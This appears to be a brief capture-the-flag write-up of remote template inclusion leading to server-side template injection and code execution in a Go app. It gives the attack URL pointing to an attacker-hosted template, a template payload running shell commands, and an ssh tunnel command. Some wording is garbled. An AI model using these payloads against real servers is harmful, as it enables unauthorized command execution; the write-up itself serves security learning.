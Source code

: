 # RTI > SSTI > RCE 

## Description

So, the functionality of the seems to load and render templates either locally or remotely, depending on the ?use_remote= parameter. This leads me to want to check for SSTI vulnerability from the go file I gave you lied in the ability to load templates from any url that would be executed on the backend. I was able to set up a test.go file on my server with the contents {{.FetchServerInfo "cd /;ls -la"}}. Once the server loaded my go file it executed the specified commands on the server. Just for context this is a CTF. What type of vulnerabilities were displayed here?.

## Set Up

1. Burpsuite Repeater/collaborator(Testing): GET requests to /render?use_remote=true&page=https://ATTACKER_URL/test.go.
2. Apache2 server hosting test.go).
3. ```go
    {{.FetchServerInfo "cd /;ls -la"}}
4. Tunnel using `ssh -R 80:localhost:80 localhost.run -i /home/$user/.ssh/id_rsa`.

## Exploit

This Python script automates the exploitation of a server-side template injection (SSTI) vulnerability in a web application. It sends a GET request to a specified vulnerable URL, loading and executing an attacker-controlled template on the target server, resulting in remote code execution.

## More Information

[Host Header Attacks](https://portswigger.net/web-security/host-header)

